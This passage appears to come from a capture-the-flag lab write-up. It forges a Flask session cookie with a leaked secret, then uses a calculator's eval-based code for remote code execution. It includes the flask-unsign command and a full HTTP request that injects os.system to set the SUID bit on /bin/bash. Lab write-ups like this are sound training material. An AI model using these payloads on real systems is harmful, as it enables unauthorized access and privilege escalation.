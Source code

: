 ```python
        return str(eval("%s + %s" % (a, b)))
def sub(a, b):
        return str(eval("%s - %s" % (a, b)))
def mul(a, b):
        return str(eval("%s * %s" % (a, b)))
def div(a, b):
        return str(eval("%s / %s" % (a, b)))
```

Since we have the Flask secret, we can create a cookie to bypass this since it only checks for the `logged_in` parameter.&#x20;

```
$ flask-unsign --sign --cookie "{'logged_in': True}" --secret 'Fl@sKy_Sup3R_S3cR3T'   
eyJsb2dnZWRfaW4iOnRydWV9.ZLI_rA.WmTcl0Wa5jOy8ajsJvWhn6npDKA
```

This allows us to access the calculator application:

<figure><img src="../../../.gitbook/assets/image (13) (11).png" alt=""><figcaption></figcaption></figure>

The source code uses `eval` to calculate the results, which is vulnerable to RCE. We can just inject Python code like this:

```http
POST /div HTTP/1.1
Host: 192.168.201.141:5555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://192.168.201.141:5555
Connection: close
Referer: http://192.168.201.141:5555/
Cookie: session=eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZLI2-g.jAwlyKLCDrUP8eKqrY5OqHx15j0; JWT=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6ICIxIiwiZ3Vlc3QiOiAidHJ1ZSIsImFkbWluIjogZmFsc2V9.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
Upgrade-Insecure-Requests: 1



value1=os.system("chmod+u%2bs+/bin/bash")&value2=1
```